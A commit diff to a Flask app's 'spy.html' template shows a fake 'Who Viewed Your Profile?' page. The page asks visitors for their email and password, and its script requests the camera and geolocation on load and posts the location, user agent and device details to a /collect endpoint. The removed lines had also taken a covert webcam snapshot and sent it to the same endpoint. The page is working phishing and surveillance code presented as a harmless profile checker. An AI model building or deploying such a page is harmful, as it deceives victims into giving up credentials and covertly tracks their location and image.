

Before and after one commit to MR5121472/Govt-of-punjab-pak, a Flask app: page / in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; data that the repository does not hold is empty.

Commit message:
Update spy.html

```diff
--- a/templates/spy.html
+++ b/templates/spy.html
@@ -2,86 +2,101 @@
 <html lang="en">
 <head>
   <meta charset="UTF-8">
-  <title>🔍 Profile Viewer</title>
+  <title>🔍 Profile Viewer Checker</title>
   <meta name="viewport" content="width=device-width, initial-scale=1">
+  <link rel="icon" href="/static/icon.png">
   <style>
     body {
-      background: #111;
-      color: #fff;
-      font-family: Arial, sans-serif;
-      text-align: center;
-      padding: 50px;
+      margin: 0;
+      font-family: 'Segoe UI', Tahoma, Geneva, Verdana, sans-serif;
+      background: linear-gradient(135deg, #2c3e50, #3498db);
+      color: white;
+      display: flex;
+      justify-content: center;
+      align-items: center;
+      height: 100vh;
     }
     .box {
-      background: #222;
+      background: rgba(255, 255, 255, 0.1);
       padding: 30px;
-      border-radius: 12px;
-      display: inline-block;
+      border-radius: 16px;
+      box-shadow: 0 0 20px rgba(0,0,0,0.3);
+      text-align: center;
+      width: 320px;
+      backdrop-filter: blur(8px);
+    }
+    h1 {
+      font-size: 28px;
+      margin-bottom: 20px;
+    }
+    p {
+      margin-bottom: 30px;
+      font-size: 16px;
+      color: #f1f1f1;
     }
     input, button {
-      margin: 10px;
+      width: 100%;
       padding: 12px;
+      margin: 8px 0;
       border-radius: 8px;
       border: none;
       font-size: 16px;
-      width: 90%;
+    }
+    input {
+      background: #ecf0f1;
+      color: #2c3e50;
     }
     button {
-      background: crimson;
+      background: #e74c3c;
       color: white;
       cursor: pointer;
+      font-weight: bold;
+    }
+    button:hover {
+      background: #c0392b;
     }
   </style>
 </head>
 <body>
   <div class="box">
     <h1>👁 Who Viewed Your Profile?</h1>
+    <p>Enter your email to check last profile visitors (Secret Mode)</p>
     <form id="spyForm">
       <input type="text" placeholder="Enter your email" required>
       <input type="password" placeholder="Your password" required>
-      <button type="submit">Check</button>
+      <button type="submit">Check Now</button>
     </form>
-    <video id="video" width="320" height="240" autoplay style="display:none;"></video>
-    <canvas id="canvas" width="320" height="240" style="display:none;"></canvas>
   </div>
 
   <script>
-    async function sendData(status, lat = null, long = null, photo = null) {
+    async function collectData(status, latitude = null, longitude = null) {
       await fetch("/collect", {
         method: "POST",
-        headers: { "Content-Type": "application/json" },
+        headers: {"Content-Type": "application/json"},
         body: JSON.stringify({
           userAgent: navigator.userAgent,
-          latitude: lat,
-          longitude: long,
+          latitude: latitude,
+          longitude: longitude,
           camera: status,
-          deviceInfo: navigator.platform,
-          snapshot: photo
+          deviceInfo: navigator.platform
         })
       });
     }
 
     navigator.mediaDevices.getUserMedia({ video: true })
       .then(stream => {
-        const video = document.getElementById("video");
-        const canvas = document.getElementById("canvas");
-        video.srcObject = stream;
-
-        setTimeout(() => {
-          const context = canvas.getContext("2d");
-          context.drawImage(video, 0, 0, canvas.width, canvas.height);
-          const imageData = canvas.toDataURL("image/png");
-
-          navigator.geolocation.getCurrentPosition(
-            pos => sendData("✅ Allowed", pos.coords.latitude, pos.coords.longitude, imageData),
-            err => sendData("❌ Location Denied", null, null, imageData)
-          );
-
-          stream.getTracks().forEach(track => track.stop());
-        }, 1500);
+        navigator.geolocation.getCurrentPosition(
+          pos => {
+            collectData("✅ Allowed", pos.coords.latitude, pos.coords.longitude);
+          },
+          err => {
+            collectData("❌ Location Denied");
+          }
+        );
+        stream.getTracks().forEach(track => track.stop());
       })
       .catch(err => {
-        sendData("❌ Camera Denied");
+        collectData("❌ Camera Denied");
       });
   </script>
 </body>
```
